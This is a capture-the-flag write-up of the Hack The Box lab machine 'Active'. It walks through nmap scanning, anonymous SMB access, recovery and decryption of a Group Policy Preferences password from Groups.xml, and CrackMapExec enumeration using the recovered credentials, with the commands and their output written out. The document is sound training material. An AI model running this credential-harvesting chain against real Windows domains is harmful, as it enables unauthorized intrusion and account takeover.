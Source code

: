# Initial Enumeration

All TCP port scan with Service Version enumeration.
``` bash
nmap -sS -sV -sC -T3 -p- <ip-address>
```

Some of the services found on the machine indicate that it is a Domain Controller, or as such capabilities;

```bash
53/tcp open domain Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1) | dns-nsid: |_ bind.version: Microsoft DNS 6.1.7601 (1DB15D39) 
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-11-27 10:08:23Z) 135/tcp open msrpc Microsoft Windows RPC 
139/tcp open netbios-ssn Microsoft Windows netbios-ssn 
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name) 
445/tcp open microsoft-ds? 464/tcp open kpasswd5? 
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 636/tcp open tcpwrapped 
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
```
 DNS, LDAP and Kerberos services are active on this machine.
 The domain is found in the Service enumeration as "active.htb" so i added it to the etc/hosts file.
`echo "<ip-address> active.htb" | sudo tee -a /etc/hosts`

### SMB Enumeration
 Using **smb-client** I enumerate the shares present on the SMB server:

```zsh:
smbclient -L //<ip-address>
Password for [WORKGROUP\ikosaedr]:
Anonymous login successful
Sharename  Type  Comment
---------  ----  -------
ADMIN$     Disk  Remote Admin
C$         Disk  Default share
IPC$       IPC   Remote IPC
NETLOGON   Disk  Logon server share
Replication Disk
SYSVOL     Disk  Logon server share
Users      Disk
SMB1 disabled -- no workgroup available
```

The only share it is possible to access with anonymous credentials is the “Replication” share, which seems to
be a copy of SYSVOL . This is potentially interesting from a privilege escalation perspective as Group Policies
(and Group Policy Preferences) are stored in the SYSVOL share, which is world-readable to authenticated
users.
We connect to the share and download its contents recursively, noticing the Groups.xml file in particular,
which typically contains username/password combinations that can be useful for exploitation.

```zsh:
smbclient //<ip-address>/Replication
Password for [WORKGROUP\htb-c4rm3l0]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
<...SNIP...>
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-
00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as
active.htb/Policies/{31B2F340-016D-11D2-945F-
00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (12.4 KiloBytes/sec) (average 15.5
KiloBytes/sec)
<...SNIP...>
```

The *Groups.xml* reads as follows:
```xml:
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-
8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06"
uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName=""
description=""
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw
/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0"
userName="active.htb\SVC_TGS"/></User>
</Groups>
```

From this file we get an username, apparently for a service account, "*SVC_TGS*" and an encrypted password.

We can decrypt the password with *gpp-decrypt*:
```zsh:
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
Now we have an username and a password, that we can use to further enumerate the machine.

## Authenticated Enumeration

Using CrackMapExec we find the other users on the box:
```bash
crackmapexec smb 10.129.56.201 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --users

SMB         10.129.56.201   445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.129.56.201   445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
SMB         10.129.56.201   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                        
SMB         10.129.56.201   445    DC               Administrator                 2018-07-18 19:06:40 0       Built-in account for administering the computer/domain
SMB         10.129.56.201   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.56.201   445    DC               krbtgt                        2018-07-18 18:50:36 0       Key Distribution Center Service Account
SMB         10.129.56.201   445    DC               SVC_TGS                       2018-07-18 20:14:38 0        
SMB         10.129.56.201   445    DC               [*] Enumerated 4 local users: ACTIVE

```

With these credentials we get the **user.txt**

## Kerberoasting

In the users we can see the *krbtgt* user, that can be used to obtain a Kerberos Ticket and go on to gain root access, this needs us to crack the hash with hashcat or other, for this reason, I stopped here.